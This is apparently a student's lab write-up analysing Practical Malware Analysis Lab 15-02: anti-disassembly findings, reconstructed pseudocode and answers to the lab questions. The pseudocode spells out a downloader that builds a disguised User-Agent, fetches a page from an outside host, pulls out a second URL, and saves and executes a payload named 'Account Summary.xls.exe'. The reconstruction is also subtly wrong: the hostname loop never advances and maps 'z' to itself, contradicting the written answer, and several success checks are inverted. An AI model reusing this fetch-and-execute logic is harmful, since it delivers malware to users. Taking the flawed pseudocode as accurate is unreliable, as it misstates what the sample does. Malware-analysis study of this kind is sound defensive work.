


# Lab 15-02

## Findings

### Functions
  

 - Reference to web related APIs

### Strings
  

 - Some error messages and reference to bamboo
 - No static URL endpoints found

### Anti-Disassembly Techniques

#### Code Disassembled as bytes
  

 - Some parts of the code where not disassembled properly and were treated as data bytes

  

 - Manually force IDA Pro to assemble the data bytes as code
 - Now shows a subroutine `sub_40130F` being called, among other operations

#### Rogue instructions
  
  

#### Jump Instructions with the Same Target
  

### Anti-Strings Technique
  
  

### Pseudocode
```py
# Main Stack
[ebp-102B0h] -> hAccountFile
[ebp-102ACh] -> Buffer_2
[ebp-102A8h] -> cAccountSum
[ebp-102A4h] -> hInternet
[ebp-102A0h] -> Buffer
[ebp-2A0h] -> nCounter
[ebp-29Ch] -> hInternetOpen
[ebp-298h] -> BambooOffset
[ebp-294h] -> lpWSData
[ebp-104h] -> dwNumberOfBytesRead
[ebp-100h] -> cHostname
```

```py
def main(argc, argv):
    bWSResult = WSAStartup(0x202, lpWSData)
    if (!bWSResult):
        return

    bHNResult = gethostname(cHostname)
    if (!bHNResult):
        print("not enough name")
        return

    nCounter = 0
    while (nCounter < 0x100 || cHostname[nCounter] != null):
        cHNLetter = cHostname[nCounter]
        if (cHNLetter == 'Z'):
            cHostname[nCounter] = 'A'
            continue
        
        if (cHNLetter == 'z'):
            cHostname[nCounter] = 'z'
            continue

        if (cHNLetter == '9'):
            cHostname[nCounter] = '0'
            continue
        
        cHNLetter += 1
        cHostname[nCounter] = cHNLetter

    hInternet = InternetOpenA(cHostname, 1, 0, 0, 0)

    cUrl = GetUrl()
    hInternetOpen = InternetOpenUrlA(hInternet, cUrl, 0, 0, 0, 0)
    if (!hInternetOpen):      
        print("internet unable")
        return

    hFile = InternetReadFile(hInternetOpen, Buffer, 0x0FFFF, dwNumberOfBytesRead)
    if (!hFile):
        print("internet unable")
        return

    InternetCloseHandle(hInternetOpen)

    BambooOffset = strstr(hFile, "Bamboo::")
    if (!BambooOffset):
        return
    
    ColonOffset = strstr(BambooOffset, "::")

    cAccountSum = GetAccountSum()

    Buffer_2 = malloc(0xA00000)

    BambooOffset += 8 # Remove "Bamboo::"
    hInternetOpen = InternetOpenUrlA(hInternet, BambooOffset, 0, 0, 0, 0)

    InternetReadFile(hInternetOpen, Buffer_2, 0x10000, dwNumberOfBytesRead)

    hAccountFile = fopen(cAccountSum, "wb")
    fwrite(Buffer_2, dwNumberOfBytesRead, 1, hAccountFile)
    fclose(hAccountFile)

    ShellExecuteA(0, 0, cAccountSum, 0, 0, 0xA)

    return

def GetUrl():
    return "http://www.practicalmalwareanalysis.com/bamboo.html"

def GetAccountSum():
    return "Account Summary.xls.exe"

```

## Questions
### 1. What URL is initially requested by the program?
The url is `http://www.practicalmalwareanalysis.com/bamboo.html`.

### 2. How is the User-Agent generated?
It is generated by modifying the hostname with rotation of Z -> A, 9 -> 0 and adding 1 to each remaining characters.

### 3. What does the program look for in the page it initially requests?
The program looks for the substring `Bamboo::` within the received data. It will mark where the next url endpoint should be at.

### 4. What does the program do with the information it extracts from the page?
It send a request to the new URL and stored the received data into a file named `Account Summary.xls.exe`. Then it executes that given file in shell.
